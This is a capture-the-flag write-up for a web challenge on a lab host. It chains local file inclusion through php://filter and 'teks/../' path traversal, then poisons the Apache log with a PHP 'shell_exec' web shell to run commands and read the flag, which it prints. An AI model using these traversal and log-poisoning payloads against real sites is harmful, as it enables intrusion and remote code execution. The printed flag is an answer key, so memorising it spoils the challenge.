[< Back](../../README.md)

Found open ports with `nmap`:
```
Discovered open port 22/tcp on 10.10.8.58
Discovered open port 80/tcp on 10.10.8.58
```

Taking a look at `:80`:
<p></p>

Clicking on the TEK button, shows an image and adds a query parameter to the url:
<p></p>

Let's try to do some LFI (Local File Inclusion) in the URL, for example let's first just try to break it:
```
http://[IP]/?view=AAAA
```
<p></p>

Okay so it seems like it is expecting the string "tek" (or "pedago" for the other button).

Let's try once again a random value but this time including the word "tek":
```
http://[IP]/?view=AAAAtekAAAA
```
<p></p>

Nice! It worked, this proves we can do LFI.

Let's now try to get to encode in base64 "tek" and see if it spits out some code.

To do this we will use a php filter:
```
http://[IP]/?view=php://filter/read=convert.base64-encode/resource=tek
```
<p></p>

Decoding the base64 output gives us:
```html
.jpg" />
```

Very interesting, there is a `teks/` folder, this could be very useful because I would like to print out the contents of `index.php`, the restriction over the "tek" word wouldn't allow that.

Let's try to get the contents of `index.php` by doing a back and fourth into `teks/`:
```
view-source:http://[IP]/
  ?view=
    php://filter/read=convert.base64-encode/resource=teks/../index
```
<p></p>

We got a match! (I also switched to `view-source` mode.)

Decoding this gives us the entire source code for `index.php`.

Now we get a very interesting piece of code:
```php
# [...]
$ext = isset($_GET["end"]) ? $_GET["end"] : '.php';
# [...]
include $_GET['view'] . $ext; # This is the line 24, that we were breaking from the start.
# [...]
```
---

The ability to control the file extension gives us a whole new world of possibilities.

Let's start by trying to do RCE (remote code execution) using log files

The idea behind this is setting up a new query parameter on the server by sending a GET Request with a User-Agent header that has php code instead as the parameter.

Now by viewing a log file in the browser, we can RCE on the server.

The process is very technical, so here are my sources of inspiration:
- [How to use File Inclusion to get Remote Code Execution?
](https://www.youtube.com/watch?v=2QwS-ChXHtQ)
- [PayloadsAllTheThings - LFI to RCE via controlled log file](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion#lfi-to-rce-via-controlled-log-file)

---

Let's use the `end` query parameter to remove the file extension as it just confuses the request even more.

Let's also try to access some log files to be able to execute a custom request. (I've also removed the base64 encoding as it's not needed anymore)
```
view-source:http://[IP]/
  ?end=
  &view=
    php://filter/resource=teks/../../../../../var/log/apache2/access.log
```
<p></p>

We get the contents of the log file and we can see the User-Agent, so let's do a request using our own User-Agent. Here is the payload:
```php
<?php echo(shell_exec($_GET['cmd'])) ?>
```
<p></p>

Now if we send a request with a simple Hello World we can see it appear on the server logs.
```
view-source:http://[IP]/
  ?end=
  &view=
    php://filter/resource=teks/../../../../../var/log/apache2/access.log
  &cmd=echo+Hello+World
```
<p></p>

Let's now try to ls in the root of the apache server:
```
[...]
  &cmd=ls+-la+/var/www/html
```
<p></p>

We got it, and there is a flag.php file that was hidden in play sight!

Let's get the flag:
```
view-source:http://[IP]/
  ?view=
    php://filter/read=convert.base64-encode/resource=teks/../flag
```
<p></p>

Decoding the base64 gives us the flag: `EPI{tH15_15_N0T_4_t3Kp3D490_Y0U_D1rty_h4Ck3R}`
